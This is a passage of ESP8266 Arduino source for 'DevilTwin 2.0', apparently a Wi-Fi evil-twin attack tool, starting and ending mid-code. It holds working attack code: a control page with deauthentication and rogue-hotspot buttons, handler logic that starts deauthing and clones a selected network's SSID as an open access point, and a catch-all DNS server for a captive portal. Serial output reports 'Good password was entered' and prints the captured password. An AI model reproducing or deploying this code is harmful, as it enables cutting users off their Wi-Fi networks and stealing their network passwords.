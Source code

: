     WiFi.softAP("DevilTwin", "12345678");
    dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
    Serial.println("Good password was entered !");
    Serial.println(_correct);
  }
}

String _tempHTML = "<html><head><meta name='viewport' content='initial-scale=1.0, width=device-width'>"
                              "<style>body {background-color: #000; color: #fff; font-family: Arial, sans-serif;}"
                              ".content {max-width: 500px; margin: auto; background-color: #1e1e1e; padding: 20px; border-radius: 10px;}"
                              "table, th, td {border: 1px solid #444; border-collapse: collapse; padding-left: 10px; padding-right: 10px;}"
                              "th {background-color: #333;}"
                              "td {background-color: #1e1e1e;}"
                              "button {background-color: #1e90ff; color: white; padding: 10px 20px; border: none; border-radius: 25px; cursor: pointer; transition: background-color 0.2s ease-in-out, transform 0.2s ease-in-out;}"
                              "button:hover {background-color: #0a74da; transform: translateY(-3px);}"
                              "button:disabled {background-color: #555; cursor: not-allowed;}"
                              "</style></head><body><div class='content'>"
                              "<div><form style='display:inline-block;' method='post' action='/?deauth={deauth}'>"
                              "<button style='display:inline-block;' {disabled}>{deauth_button}</button></form>"
                              "<form style='display:inline-block; padding-left:8px;' method='post' action='/?hotspot={hotspot}'>"
                              "<button style='display:inline-block;' {disabled}>{hotspot_button}</button></form>"
                              "</div></br><table><tr><th>SSID</th><th>BSSID</th><th>Channel</th><th>Select</th></tr>"
                              "<div class='credits'><p>DevilTwin 2.0</a></p></div>";


void handleIndex() {

  if (webServer.hasArg("ap")) {
    for (int i = 0; i < 16; i++) {
      if (bytesToStr(_networks[i].bssid, 6) == webServer.arg("ap") ) {
        _selectedNetwork = _networks[i];
      }
    }
  }

  if (webServer.hasArg("deauth")) {
    if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
    } else if (webServer.arg("deauth") == "stop") {
      deauthing_active = false;
    }
  }

  if (webServer.hasArg("hotspot")) {
    if (webServer.arg("hotspot") == "start") {
      hotspot_active = true;

      dnsServer.stop();
      int n = WiFi.softAPdisconnect (true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1) , IPAddress(192, 168, 4, 1) , IPAddress(255, 255, 255, 0));
      WiFi.softAP(_selectedNetwork.ssid.c_str());
      dnsServer.start(53, "*", IPAddress(192, 168, 4, 1));
